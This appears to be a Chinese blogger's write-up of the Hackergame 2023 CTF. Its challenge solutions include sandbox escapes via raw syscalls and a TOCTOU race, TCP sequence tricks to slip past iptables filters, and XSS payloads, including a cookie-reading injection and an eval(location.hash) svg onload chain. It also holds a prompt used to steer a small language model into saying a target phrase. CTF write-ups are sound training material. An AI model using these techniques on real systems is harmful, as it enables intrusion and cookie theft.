



# Hackergame2023 个人题解/复盘
Lysithea

## 后记
刚打完GG3隔了一周就来打HG了。能感觉自己确实在变强。今年HG确实比GG难，而且一如既往的马拉松（题也太多了），不过还是很开心那么多题能做出来或者有思路的。

目前我的CTF主攻方向是Web+Pwn，misc看脸，Crypto一看就困，说实话有点杂糅。校赛里会点二进制确实比较吃香，因为考虑到大家的平均水平Pwn都不会出的很难（更别提隔壁GG还有动态分机制）

最后，感觉最近玩的太疯啦，这一波CTF狂潮直接摧毁了我的作息。该回到主业上了，明年见啦。

{/* truncate */}

[TOC]

## 签到
HG传统拿web题当签到。打开之后是一个录音接口，需要录制一段大声喊出“Hackergame，启动”的音频来获得flag。题目给了段示例音频，我一开始的想法是我直接把这段音频放给它就可以了吧？用OBS可以实现监听到麦克风。结果发现用内录的音频也只能到66%左右。进一步观察发现相似度判断在前端，可以直接改query，改到100就拿flag。

## 猫咪小测
4个简单的信息收集。

1. 某本书在中科大图书馆哪一层。首先在[中科大图书馆官网](https://lib.ustc.edu.cn/)搜这本书找馆藏信息，发现这本书在西区外文书库。然后同样在图书馆介绍网站上，找到西区图书馆[各个区的位置信息](https://lib.ustc.edu.cn/%e6%9c%ac%e9%a6%86%e6%a6%82%e5%86%b5/%e9%a6%86%e8%97%8f%e5%88%86%e5%b8%83/)



2. 在arxiv的astrophysics板块直接搜索“chicken upper limit observable universe”，搜出[这篇文章](https://arxiv.org/pdf/2303.17626.pdf)。注意文中其实有多个基于不同假设的上限，可以都试一遍。

3. 在Linux的github repo中直接搜BBR，网页ctrl+f CONFIG_，能找到CONFIG_TCP_CONG_BBR符合要求。

4. 不太熟悉信息领域的会议论文有什么更好渠道，我在谷歌学术上搜的，关键词好像是"mypy halting"和"mypy turing complete"（因为停机问题等价于图灵完备性），能搜出[这篇论文](https://arxiv.org/abs/2208.14755)，读了摘要发现内容和题干说的相符，但是这只是预印本不是会议论文。最后直接把大标题带双引号拿来搜索，几个结论里面，第四个是一个会议文集，满足要求，答案是ECOOP


## 更深更暗
一个几乎无限下拉的页面。看看前端js，发现直接搜索能在一个潜艇的像素画里找到`${flag}`模板。所以我们直接改js，在这里加一句`console.log(flag)`，然后把整段js重新执行一遍就出了。

## 旅行照片3
OSINT好难啊！只做了第一问。奖牌上的名字一搜就发现是诺奖获得者小柴昌俊，奖牌被毕业的东京大学拿去展览（值得一提这位还在东北大学工作过，而且东北大学也有诺奖），搜索“日本 诺贝尔奖”可以得到维基百科一个页面。然后找诺奖奖牌介绍的时候也查到，诺奖物理和化学的奖牌是一样的，其他的都不一样。尽量找时间比较晚，看起来比较年轻的，然后点进去看有没有在东大的教育/工作经历。最后得出来小柴的学生：梶田隆章（1959）是符合要求的。（有个天野浩是1960的，但是是nagoya的，所以不行）。

至于是哪一天？我不知道。好在HG这边提交不限制频率，所以写了个js脚本直接爆破了。不得不说这个框架还挺有意思的，把答案base64之后做成个txt文件放在服务器上，如果答案正确就200OK返回txt里的flag，答案错误就404。
```js
// 2021.3.18是Nintendo World的开园日，作为我爆破的一个时间上限
var ed_date = new Date(2023, 10, 28);
var st_date = new Date(2021, 3, 18);

const sleep = ms => new Promise(r => setTimeout(r, ms));

var date = ed_date;
while(date >= st_date){
    let month = (date.getMonth()+1).toString()
    let day = (date.getDate()).toString()
    if(month < 10){
        month = `0${month}`
    }
    if(day < 10){
        day = `0${day}`
    }

    let date_str = `${date.getFullYear()}-${month}-${day}`;
    $("input[name=Answer1]").attr("value", date_str);
    console.log(date_str)
    $("input[name=Answer2]").attr("value", "ICRR");
    $("#form1").submit()

    await sleep(200);

    date.setDate(date.getDate() - 1);
}
```

其他信息的话，二三照片可以得到拉面店的店名和一个看起来很标志性的公园，Google Lens告诉我是上野公园。然后找上野公园的官网，上面有公园举行大型活动的列表，在archive.org里找8月的记录，能查到这个活动叫ウエノデ.ビアフェスタ2023（是个啤酒文化节？）。但是尝试查志愿者问卷的时候没找到，想过这种信息应该在活动时间附近的活动参与者/组织者的社交媒体能搜到？但是官推反正是没有，其他方面也没搜到，最接近的一个是一个学生社团去这个展上摆摊的一个记录，当然也没有问卷的链接。这个断了的话，后面的题做了也没有意义（话说票价也可以爆破吧）

完全不旅行的旅行照片呢。

> 赛后补充：看了官方WP发现自己又🤡了，我好像爆破的时候从F12复制日期复制错了啊，原来是8月10日吗，活动是另外一个梅酒节，怪不得做不出来

## 赛博井字棋
众所周知，两边都会玩的话井字棋是赢不了的，最多只能平。受隔壁GG猜emoji的启发，首先去看的是cookie，发现有个session疑似JWT变体，第一个字段是个json，是我的token。我竟然还尝试了一段时间攻击这个cookie，现在看来这是不是属于攻击比赛平台（

然后F12里抓包看了看服务器通信，我们发送我们要在哪个位置下棋，服务器返回当前的棋盘状态。看起来无懈可击，直到我尝试改包把我的棋子下到了一个对面已经下过的位置……

这个题卡了好久，确实没想到这个题服务端竟然是如此的大聪明，这么基本的判断都没做。

## 奶奶的睡前flag故事
这个题明明是个图片隐写，题干却一直加粗暗示“谷歌亲儿子”“旧手机”“没有升级系统”“截图”，有猫腻啊。我确实听说过，有些手机截图会藏信息，甚至有苹果手机和安卓手机打开不一样的图片（我现在找不到来源了，我记得是苹果手机有特别设置可以读另一个源，所以会读出完全不一样的图片），但没听说过安卓（谷歌）手机有这样的特性。

下载下来拿010 editor，pngcheck，zsteg，stegsolve都招呼一遍。很容易发现除了文件最后加了大量额外内容（符合图片文字描述“最后”），其他都很正常。可以发现如果搜索关键词“IDAT”，会发现额外内容里其实都是合法的IDAT块，甚至最后还有个额外的IEND，所以额外的图片肯定都在这里。但是额外数据的第一个IDAT块到第一个IEND块之间有大量垃圾信息不知道是什么。有过猜想是这是被切割的后半段IDAT块，但是大小并不能凑成0x2000这个整数，可行性存疑。然后我尝试拿常规的方法处理，改图片大小并更新CRC，把新的IDAT块插在后面，或者计算好偏移让最后一个块凑成0x2000，都不行。

尝试另一个思路。谷歌亲儿子搜出来是nexus手机，然后brainstorm一些可行的关键词，比如【隐藏】【泄露】之类的，最后还是【泄露】赢了，具体来说就是Nexus老机型有漏洞（后门？），对截图编辑后的截取的信息还是能被提取，还有[专门工具Acropalyse](https://acropalypse.com)能做到这一点。



（说起来题解第一段的思路我一看到题就有，但是一开始怎么也搜不出来，过了几天刷群看到群友聊到这个题“不看新闻的话还真就不知道”之后5分钟就搜出来了。这算被群友透了吗？如果算的话给群友ban一下谢谢（开个玩笑））

## 组委会模拟器
整活性质大于实际意义的一个题，后来刷群天天有人发【这个题的flag是hack[xxxxx]】，笑死。

其实会写javascript就一切好办了，querySelect下来，正则匹配一下，触发click，做个setInterval。刷新页面直接把脚本复制进去回车，等它跑完
```js
setInterval(()=>{
    all_msg = Array.from(document.querySelectorAll(
        ".fakeqq-message .fakeqq-message__bubble"
        )).filter((e)=>{
        var flag_ptr = /hack\[[a-z]+\]/;
        return flag_ptr.test(e.innerHTML)
    }).map((e)=>{
        // console.log(e.innerHTML)
        e.click()
    })
}, 1000)
```
话说真的要等好久啊，这个题我把脚本挂着就去干别的去了，结果flag被alert出来的时候被我一个回车给它干掉了，控制台输出里竟然还找不到，又得再跑一遍，笑死。为什么不用console.log👿

## JSON ⊂ YAML?
又是个自研不如搜索的题。这个题要给出一个合法的JSON，让它能在YAML1.1标准下得到和JSON不同的结果，或者在YAML1.2标准下会报错。一开始尝试了yaml带注释而json没有的特性，尝试拿hashtag（#）作为字段，结果毫无卵用。

我觉得生啃两个数据协议的文档没有什么意义，于是开始搜索。先是尝试到poe.com上去问Claude-Instant，给我的都是不能用的。之后再搜YAML和JSON的Wikipedia，发现两个wiki有各自引用对方的页面，说明两个协议的包含关系。在wiki的引用中，最有用的是这两篇：[metacpan](https://metacpan.org/pod/JSON::XS#JSON-and-YAML)和[9年前的stackoverflow](https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files)。甚至，后者直接给出了符合题目的两个例子：

- 让YAML1.1给出不同结果：1234e999在JSON里是科学计数法的inf，在yaml里是字符串，可以构造`[1234e999]`
- YAML1.2会把duplicate key作为error（是stackoverflow提问者在问题里提到有这个特性），所以构造`{"1":"12","1":"23"}`即可

## Git? Git!
Git仓库信息泄露题。众所周知Git是个非常成功的分布式版本控制工具，以至于非专业人士很难把一个Git仓库里的历史记录删除干净，如果被push到线上那就更难了（当然这个题是本地）

具体来说，git里包含各个版本的文件内容是作为object，以特定的hash作为key保存的，具体来说，是在`.git/objects/b2/b1962e7b4b6c3e1136028e20425a28a392c501`下xx+yyyyyyy组成一个共40位的hash（sha1?），然后只要`git cat-file -p $hash`就可以把对应文件内容打印出来了。于是我写了简单脚本把git仓库里所有objects全部打印了一遍，flag就在其中。

## HTTP集邮册
你知道我在11个状态码卡了多久吗？（虽然好像有群友说能爆14个，但雨我无瓜）

主要参考资料是NFC文档，MDN文档和Nginx源码。按获得顺序整理：

- 200 OK：直接点就可以一键获得，最简单的一个
- 405 not allowed：换成HEAD和GET以外任意方法可以获得，POST是最简单的，换一个不存在的也行，比如AAAJIUMING。后续尝试中很容易出的代码
- 404 not found：把/换成任意不存在的合法路径即可
- 400 bad request：我第一遍是/../出的，其实你随便发点什么东西都会出这个代码，也是后期最不想看到的代码
- 505 http version not supported：改成HTTP/2.0，3.0都可以触发。好像9.9也可以触发

========= flag1分界线 ==============

- 414 uri too large：让URL变得特别长就可以了。或者让method变得特别长也是这个，应该就是首行太长就会返回这个
- 206, 416：两个是Range相关的，可以在header加一个Range字段，让服务器只返回固定字节偏移的内容。如果能够截取这个偏移（比如`Range: bytes=0-1`），就会返回206 Partial Content；如果不能截取（比如`Range: bytes=114514-1919816`或者`Range: bytes=1-0`），就会返回416 Requested Range Not Satisfiable。
- 100 Continue：这个状态码可能本来是在发一个大请求之前，先预告服务器连接状态用的，只要加`Expect: 100-continue`头就可以在200OK之前先返回一个100 Continue。值得一提这个Expect头只有`100-Continue`这一个可用的值，而且只在HTTP/1.1有效
- 无状态码：只要不带后面协议只发一个`GET /\r\n`，NGINX就会认为这是HTTP/0.9版本，从而发一个向下兼容的不带状态码的回复（那个年代可能还没有请求头，状态码这些东西）
- 412 Precondition Failed: MDN文档提到，如果包含If-Unmodified-Since条件不满足时会报这个错（一般这个请求是用本地文件较新文件覆盖远程文件的，如果服务器更新那就不用修改）
- 413 Content Too Large: 只要加一个数值够大的Content-Length字段即可。看起来不管method是否应该携带数据，NGINX都会尝试处理Content-Length头。
- 304 Not Modified: 这个是卡我最久的，原理就是用If-Modified-Since和If-Match来请求。NGINX会对某些资源（通常是静态图片，字体等）采取默认的缓存策略，只要本地浏览器缓存的时间更新/本地资源的etag符合，服务器就不会返回内容而是返回304让浏览器直接使用自己的缓存。事实上服务器就只是用这个头来判断的，它无法检查本地浏览器真的缓存了没有。一个trick是，这两个头必须要同时加，nginx才会认为你真的缓存了正确的资源。


一些不能用/没发现怎么用的：
- 401, 403：虽然自己配服务器天天见403，但这个还真就出不来，因为默认配置没有.htaccess这种不可访问文件。401同理。
- 重定向相关：301,302这些
- WebDAV相关，太多了，MDN会说哪些是WebDAV的code
- upgrade相关：本来想能不能HTTP/1.0升级HTTP/1.1，很可惜不行，upgrade最低支持HTTP/1.1，websocket或者HTTPS那就更不可能。所以101,426不行
- PUT, POST相关：因为GET和HEAD都不能带Content，会排除大量的code。所以说413能用我反而很意外。
- 超时相关：我确实尝试过python脚本爆破服务器去打429 Too Many Requests和408 Request Timeout！很可惜前端python应该是串行的，不行。
- 服务器报错：我们nginx是很稳定哒！50x系列很难出了（505是例外）（话说如果出了什么事故导致后台停机了是不是会免费送选手一个502）
- 写在标准里但是NGINX不认的：点名431 Request Header Fields too large！写很大的header会被NGINX直接规约成400，甚至title都不一样！源码如下：

```c++
if (overwrite == -1) {
    switch (err->status) {
        case NGX_HTTP_TO_HTTPS:
        case NGX_HTTPS_CERT_ERROR:
        case NGX_HTTPS_NO_CERT:
        case NGX_HTTP_REQUEST_HEADER_TOO_LARGE:
            err->overwrite = NGX_HTTP_BAD_REQUEST;
    }
}
/* 你是否在嘲讽我？
<html>
<head><title>400 Request Header Or Cookie Too Large</title></head>
*/
```

## Docker for everyone
用过Docker就能秒破，甚至不需要懂原理的一个题。

进入环境之后，`ls -al /`一下发现flag是连接到`/dev/shm/flag`的。只要我们docker进入环境时挂载上`/dev`，比如`docker run -v /dev:/dev -it alpine`，进入docker之后就是root，就可以直接`cat /dev/shm/flag`了

怎么说呢，毕竟挂载文件系统是需要root的，所以docker组至少在这方面是有权限的，这也没有办法。如果container本身是root身份，那进入docker就是提权了。这么一看docker组比sudo组还要重量级啊，甚至都不需要密码。

## 惜字如金2.0
比HG2022那个题简单好多。ciph用了一个字典做简单替换加密，阅读源码发现ABCDE五个字典都恰好丢失了一个字符。对XZRJ规则的逆向主要是，每个辅音字母后都可以添加相同的字母（大小写），以及每个字母构成的子串当结尾为辅音时可以加e/E。遍历规则时，`itertools.product`是个好东西。然后，根据【前5个字符是`{`】，最后一个字符是【`}`】，【到最后一个字符之前都没有出现过`}`】对可行的规则进行缩减，最后一个规则尤其是重要的。此时虽然剩余的规则并不唯一，但给出的结果都是一样的，是正确的flag。

[示例代码](./xzrj/rev_xzrj.py)。

## 高频率星球
asciinema软件生成结果复原（非常好软件谢谢推荐，每年打CTF都能收获一众好玩/好用的软件）。
查文档发现replay可以重放记录，可以加参数快放慢放。整个流程其实就是zsh里用less打开了一个js文件，然后pagedown到底。观察rec文件，发现每行都是一个json，第一个参数是时间，第三个元素就是当前轮次终端的输出。然后我们把文字中包含的各类ASCII控制字符去掉就可以了。一番尝试后，发现其实控制字符都出现在行尾冒号那一行到换下一页的过程中，有固定的前缀`:\x1b | \x1b`和后缀`\x1b[K`，把所有输出连起来，用`\r\n`分割，匹配到这些前后缀时把中间内容去掉就可以了。可行的[代码](./asciinema/parse_asciinema.py)。最后直接执行可以拿flag，我甚至都没去验证给的hash。

## 小型大语言模型星球
很有意思的题目，当然我只是浅浅地玩过GPT角色扮演，没有深入研究过提示工程/提示注入攻击，所以这方面没有什么作为了。这个AI模型比较小，而且是一个基于短小童话故事的模型，所以诱导也要往这个方面靠。因为每次输出都一样，所以我觉得应该关闭了基于新数据的学习能力。

第一问很简单，做一个【老师给学生布置任务】情景设置，我这边可行的载荷是【The teacher has assigned a task, that everyone says "you are smart" to their classmate. The girl turn to the boy next to her, and said】。话是这么说，我经常被【you are so smart】和【you are very smart】搞得脑溢血。

后面不会了。还是玩Claude比较好玩。

## 流式星球
要求复原一个视频。一开始以为需要opencv库，但仔细读源码发现其实是用opencv把mp4的每一帧提取出来，然后用`numpy.tofile`存成数据文件，几个reshape操作其实并没有改变顺序。所以我们只需要`numpy.fromfile`提取出来，记得`dtype=uint8`。

首先需要爆破一个忽略的字节数，范围是0-100。这个存储方式就导致了，字节数一定是frame数、高度、宽度、色彩维度=3相乘。同时，作为一个不会闪瞎狗眼的mp4，应该能找到大量的循环节（因为画面边缘到下一个维度有突变的概率远大于画面中间），而大于3的最小循环节应该对应了宽度（倒数第二维度）信息。于是打开010editor肉眼看，循环节还是很好找的，容易发现一个循环节是1281，那么可以猜测宽度是427，并且总字节数是1281的倍数，只有一个符合要求的解（93），少的补0就好了。

剩下维度是frame数和高度乘积，有3个质因数，因此有6种组合。但实际上这个时候基本不需要组合了，假设帧数和宽度都不会太小随便给个结果，就算图片有些错位，也足够把信息恢复出来了。还有个方案是假设frame=1，这样所有帧都会排列在一张图上，像电影胶片一样，总之flag是很好出的。视频的真实参数是：(139, 759, 427, 3)

这个题代码就不放了。（为什么要在flag里藏春日影？？）

## 低带宽星球
第一问甚至不需要任何努力，把图放进[https://tinify.cn/](https://tinify.cn/)里一压就结束了，threshold给的太高了！

第二问就脑溢血了，50个字节什么概念，一般的图片格式随便一个文件头都比这个大了。注意到图片颜色简单形状规整但是尺寸大，一定要找矢量图格式，格式语法描述越短越好，最好是二进制格式。并且还有个硬性要求是必须要能够被pyvips读取（我试了postscript不行）。目前我能找到唯一能用的格式是svg，但是svg作为XML还是显得废话太多，一个path就到50字上限了（我能压到150字左右）。经过一番尝试我认为svg是不可能的（所以我想看看题解是不是真有用SVG压出来的神仙）。VIPS上的其他格式，以及其调用的ImageMagick的80多种格式大致扫了一眼，没找到能用的。


## Komm, süsser Flagge
iptable和防火墙。挺喜欢的一个题，第一次让非科班出身的我认真学了一下TCP/IP报文协议和三次握手。

作为考底层网络协议的题，首先要找到趁手的工具，配置环境。BurpSuite原生不支持TCP协议抓包修改，有个插件好像是能做到这一点但是还是抓不到TCP包，折腾了很久放弃。期间我还查到一个用[原生socket库手搓的改IP包的库](https://github.com/AlecHang/packet_sender)，TCP包要自己手写，一看就不怎么靠谱。最后查到scapy这个框架可以拿来做底层网络的发包，当然是需要sudo权限的，使用也算便利，文档虽然写的不怎么样但是stackoverflow还是能搜到一些初级问题的答案。然后，我还用了wireshark辅助抓包，因为不太会用scapy，好像有些包的返回内容抓不到，但是wireshark可以全抓了。

然后需要读懂题目的要求，即iptable filter的配置。注意iptable里报文是相对于IP头的，而IP包的载荷是TCP头，TCP的载荷才是HTTP报文。第一问和第三问是strings模块，匹配对应字符串是否在报文中出现。第二问的u32语法则比较晦涩，在Claude和Google帮助下，我了解到这是一种基于四个字节固定位置匹配的语法，这一套连招可以精准读出IPV4包长度和TCP包长度，并精准匹配到HTTP报文的第一个字节。

flag1用strings匹配报文里不能含有【POST】。不需要知道TCP协议的细节，只需要知道各个协议层之间是解耦的就可以了。所谓的【粘包】【分包】的问题，即一个TCP包里可能只包含HTTP包的一部分，甚至一个包的结尾+第二个包的开头，甚至包的顺序还可以因为网络延迟发生调换。但是没有关系，TCP协议自己会处理好这些事情，留给后面HTTP协议的只是一段连续的数据流。而iptables是基于IP/TCP协议的，也就是说它面对的只是一个一个的TCP包。这样就好办了，我们只要把HTTP头里的POST拆成两个TCP包发送就可以了。这一问不是特别底层，甚至不需要额外配其他工具，直接用pwntools里的send函数分两次发送就好了。（补充两个小细节，发包的时候会有提示需要正确的Host和Content-Length头，加上就是能被go的http服务器解析的包了，这个问题要在第一问内解决不要带到后面）

flag2用u32匹配HTTP报文的第一个字符不能是【P】，当然我是尝试了一下小写，加空格，加空行这些不规范的语法的，通通不认（但我的flask/Werkzeug就可以认其中一些，go的http果然还是比较严格）。那么到这里，我们就需要了解一些TCP是如何解决延迟/分包问题的细节了，可以看这个[博客](https://blog.csdn.net/a19881029/article/details/38091243)。

> TCP三次握手：首先客户端向服务端发送一个flag为SYN的包，表示发起连接，然后服务器返回一个ACK/SYN的包（ACK表示确认），表示接受连接。然后客户端和服务端就可以发送数据。结束时需要四次挥手，会有FIN包。拒绝连接重置时，发的则是RST（reset）包，事实上这个题服务端拒绝我们也是用的这个包。
> TCP包用seq跟踪已发送的字节数，用ack表示自己已经收到多少对应的字节。SYN/FIN这种包比较特殊，不带数据但也会让ack+1。

因此，我们知道服务端对TCP解包的时候，是通过TCP头里的seq字段判断当前包是第几个字节的。那么如果我主动把seq减1，服务端会作何应对？

答案是服务端会机械地去找seq相等的那个字节，把内容加入HTTP报文里，而前面的部分就直接丢弃了。然而，对于IP包来说，这相当于有效载荷往后移了一位。所以我们只要在POST前面加个空格，然后修改第二次连接的TCP包seq为seq-1，就可以达成目标。于是你按照这个思路，写了一个[scapy程序](./iptable/the_lie_of_P.py)，以sudo权限运行，结果……你会发现连接超时。打开Wireshark抓包的结果，你会发现个很奇怪的现象：怎么第二个包发出去的是ACK/RST啊？我发的不是ACK吗？

这是因为服务端发给我们的报文先被内核给截胡了。一般来说操作系统都是内核来管理网络发包的，而内核态的程序并不知道用户态这边进行了一些比较僭越的发包操作。于是内核收到了服务端发来的SYN/ACK包，缓缓打出一个问号：你谁啊，哪个单位的？由于内核不知道这个请求是用户态发出的，那常规的操作只能是认为这个包发错了，于是发出RST中断连接。之后我们自己再发出ACK包，因为服务端已经中断了，而TCP三次握手是从SYN开始的，所以服务端也表示缓缓打出一个问号，最终以RST拒绝我们。解决方案就是用iptable简单粗暴屏蔽掉内核发出的RST包，我参考了[stackoverflow的问答](https://stackoverflow.com/questions/9058052/unwanted-rst-tcp-packet-with-scapy)，至少这次攻击流程里是不需要发出RST的，之后把规则改回来就行了。

flag3是一个白名单匹配，要求IP报文前50个字符中包含【GET / HTTP】字串。但是一般来说，IPV4包头就是20字节，TCP包头最短20字节，但加上一些额外设置，一般就会达到32字节，也就根本无法从应用层把这句话插进去（这也是为什么浏览器直接打开第三个网址/curl等工具会直接报无法连接的原因）。不过好在，根据TCP/IP协议，我们可以允许包的后面加入可变长度的选项内容，这个选项并不需要真的有意义，因为解包时如果看不懂会直接忽略。而10个字节长度，刚好可以满足最短IP头+TCP头+虚假载荷=50字节的需要。试了一下，IP Options加进去会丢包，但是TCP头加进去是可以通过的。[我的代码](./iptable/send_pack.py)。

## 为什么要打开 /flag 😡
第一个二进制就是重量级的沙箱逃逸。只做出第一问。

### flag1: LD_PRELOAD
这个题的环境加入了一个LD_PRELOAD的so库，意思是这个库的函数名会比C标准库同名函数优先加载，于是就把一众函数覆写掉了。具体来说所有有打开文件功能的函数都被hook了，先检查名字是不是flag，然后再调用原始函数。而system, execve等一众开子进程shell的函数都直接覆写为`return 0;`，直接禁用。

实际上这个沙箱形同虚设，因为open等函数只是对真正系统调用的一个包装，它们是进行基本的参数验证后把对应参数传给寄存器后执行`syscall`命令进入内核态，而这一步是LD_PRELOAD这种Ring3级沙箱无法触及的。因此我们只要写一些内联汇编，不调用open函数而是直接调用sys_open系统调用，就可以绕过。

### flag2: seccomp_unotify
没做出来也要吐槽一下。这个题是用rust写了个沙箱（引用了别人的代码基础上修改的），只允许了小部分系统调用，同时对open/openat写了个hook，先把文件名从/flag改成/fakeflag，再继续执行系统调用。这样连syscall也能拦截了那怎么办呢？

还真有办法，并且这个办法写在了出题人引用的那个代码后附的说明里，即所谓TOCTOU攻击。TOCTOU即Time of check & Time of use，是一种利用条件竞争绕过检查的攻击技术，具体来说就是如果程序在被检查时是合法的，但是在检查到实际执行之间有空挡，就可以在检查之后修改一些条件达成攻击目标。对这个题来说，一个可行的方案就是再开一个子进程/线程，使其对主进程的内存空间有读写权限，然后一刻不停地把传入参数的地址修改为/flag。这样，即使rust完成了检查，已经把/flag替换成/fakeflag了，在继续执行系统调用前我们也有机会把/fakeflag再替换回来。

很可惜，这个题我虽然可以用clone加CLONE_VM参数创建线程成功，但是始终无法TOCTOU掉seccomp_unotify，或许必须得做些ring0的hook吧，但是我又懒得编译个内核去调，摆了。

> 赛后补充：我真是个大聪明，TOCTOU是个概率学攻击，只要发现打开的文件不是flag我只要写个循环重新打开一遍就好了啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊就差一步啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊啊
> 另外我自己的思路是错的，我是尝试一直覆写那个地址为`/flag`，但是题解的做法是在`/flag`和`/alag`之间反复横跳，题解的做法有1/2的概率碰撞成功，我的方法如果覆写的过程不原子那基本没可能成功。

## 微积分计算小练习2.0
有点难的XSS，做出来也非常有成就感。这个题给了一个有漏洞的网站，然后我们可以提供一个静态HTML，题目会有一个selenium bot模拟受害者，先访问漏洞网站设置cookie，然后访问我们的静态HTML，整个过程不会出现任何输出，也不能连接外网。我们的目标是偷到bot设置的cookie。

### 网页XSS漏洞

首先开始挖网站上的漏洞，做题页面没有东西，结果页面有个评论区功能，只能留25个字符，并且过滤了一大堆字符。本来想讲讲思路的，不过想来还是直接把我当时做的笔记直接放上来比较有节目效果（

```js
- 按上一届，后台可能是uWSGI？
- 反斜杠可以转义
- 单个双引号会报错，说明整个是双引号括起来的？
    - "+"注入，后台不会eval了吧？
    - 1"*2+"2，会得到NaN2
    - "+url_for+"，会出现只有第二行加载中（运行时报错？）
    - "["__name__"]+" 出undefined
    - 23"||7+" 会去除前面的"你的评论"的提示
    - "+{a:12}+" 会出[object Object]，基本确定是js解释器，有window，document
        - 这好像是我自己的浏览器解释器啊？
        - 拿cookie payload: "+document["cookie"]+"
- md破案了，模板是：
updateElement("#comment", "你留下的评论：{{input}}");
```
如上面所示，加载评论的模板其实放在JS段的一个字符串中间，又没有过滤双引号和转义，那很容易就会造成前端的模板注入（并不是在模板引擎中注入而是在前端JS代码注入），因为评论区其他人也可以看到所以可以转化为持久性XSS。

到这一步就有两个分支思路了：
- 利用反斜杠转义功能制造通用XSS。市面上能见到最短的有效载荷是这个：`<svg/onload=eval(name)>`，但问题在于尖括号和圆括号被过滤了，尽管我们可以用`\74svg/onload=eval\50name\51\76`这样的8进制语法绕过，但很不幸还是太长了。
- 利用`"+ __ +"`结构截断字符串，注入JS代码。有很多有意思的变量可以用，比如`document["cookie"]`可以直接读出来放在页面上，比如`name`全局变量，可以在`window.open`时指定。`location["hash"]`变量，可以在URL的#后面插入内容来指定。只可惜这种方法里面调用函数是不行的，因为离开字符串环境就不能用反斜杠转义了，括号打不出来，也就没法用`"+eval(name)+"`这种手段执行代码了。

等下，如果我把两种方法结合起来用，阁下将如何应对？

- 在评论区注入`"+name+"`，
- 在`window.open`创建漏洞网站的窗口时，指定`name`如下。因为hash内容是#+URL转义后的内容，这样可以直接还原原文。

```js
<svg/onload=eval(decodeURI(location.hash.substring(1)));>
```

- 访问`http://web/result#<your js code>`可以在svg标签加载时直接执行后面的JS代码。

因为location.hash的长度限制很宽松，也没有WAF，我们实现了任意XSS。

### 跨域XSS + 结果返回
接下来还有两大难点需要解决：
